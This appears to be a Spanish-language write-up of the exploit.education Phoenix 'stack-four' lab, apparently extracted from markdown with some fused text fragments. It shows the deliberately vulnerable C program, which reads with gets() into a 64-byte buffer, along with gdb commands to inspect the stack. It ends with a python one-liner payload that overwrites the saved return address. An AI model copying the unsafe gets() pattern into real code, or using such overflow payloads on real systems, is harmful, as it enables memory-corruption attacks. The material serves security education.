

Pilas de llamadas y dirección de retorno
/* phoenix/stack-four, by https://exploit.education */
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BANNER \
"Welcome to " LEVELNAME ", brought to you by https://exploit.education"
char *gets(char *);
void complete_level() {
printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
exit(0);
}
void start_level() {
char buffer[64];
void *ret;
gets(buffer);
ret = __builtin_return_address(0);
printf("and will be returning to %p\n", ret);
}
int main(int argc, char **argv) {
printf("%s\n", BANNER);
start_level();
}
complete_level by modifying the
saved return address, and pointing it to the completelevel() function.__builtin_return_address?
return hace que la ejecución salga de la subrutina actual
y se reanude en el punto del código inmediatamente posterior a la
instrucción que llamó a la subrutina.__builtin_return_addressvoid * __builtin_return_address (unsigned int level)
level es el número de marcos de pila a escanear en la pila. 0 devuelve la
dirección de retorno actual, 1 devuelve la del caller y sucesivamente.file /opt/phoenix/amd64/stack-four
checksec /opt/phoenix/amd64/stack-four
hook-stop para analizar la pila del start_level.gdb -q /opt/phoenix/amd64/stack-four
gef config context.enable 0
disassemble main
disassemble start_level
break *0x400649
define hook-stop
info registers
x/32wx $rsp # pila de 80 bytes
x/3i $rip
end
complete_levelrun # pasar 64 A's, buscar dirección de retorno y calcular offset
continue
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*88 + b"\x1d\x06\x40")' | /opt/phoenix/amd64/stack-four